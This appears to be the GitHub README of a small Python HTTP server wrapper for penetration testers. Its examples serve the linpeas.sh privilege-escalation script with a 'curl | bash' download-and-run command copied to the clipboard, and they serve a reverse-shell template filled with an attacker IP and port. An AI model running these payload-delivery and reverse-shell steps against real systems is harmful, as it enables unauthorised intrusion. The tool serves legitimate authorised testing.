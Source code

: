# http-server

> Extension for python's http server. It eases serving content, supports SSL too.

## Usage

```
usage: server.py [-h] [--bind addr] [--verbose] [--ssl] [--kv K1=V1:K2=V2] [index] [port]

positional arguments:
  index                 Specify content to serve, defaults to current directory
  port                  Specify alternate port, default: 9000

optional arguments:
  -h, --help            show this help message and exit
  --bind addr, -b addr  Specify alternate bind address, default: 0.0.0.0
  --verbose, -v         Increase verbosity, print request
  --ssl, -ssl           Use SSL
  --kv K1=V1:K2=V2      Specify match-and-replace rules
```

### 1. Serve static content

> If no arguments are specified, it serves files from the current directory under the port and interface specified in [config.json](config.json).

```bash
$ alias serve="../path-to/httpserver/server.py"
$ serve /example/directory
```

- If a file is specified as first argument, the option for copying the download command is provided based on the file
  extension:

```bash
$ serve /path/to/linpeas.sh 
Serving /path/to/linpeas.sh at http://0.0.0.0:9000
Copy 'curl -k -s http://0.0.0.0:9000 | bash' to clipboard? [Enter] 
Copied ✔️
```

- The above command can be shortened as:

```bash
$ serve lp
```

given the following entry in [config.json](config.json):

```json
{
  "alias": {
    "lp": "/path/to/linpeas.sh"
  }
}
```

### 2. Serve dynamic content

> Reverse shell, template: [shell.sh](res/shell.sh)

```bash
$ serve rev --kv REPLACE_IP=$ip:REPLACE_PORT=9000
```
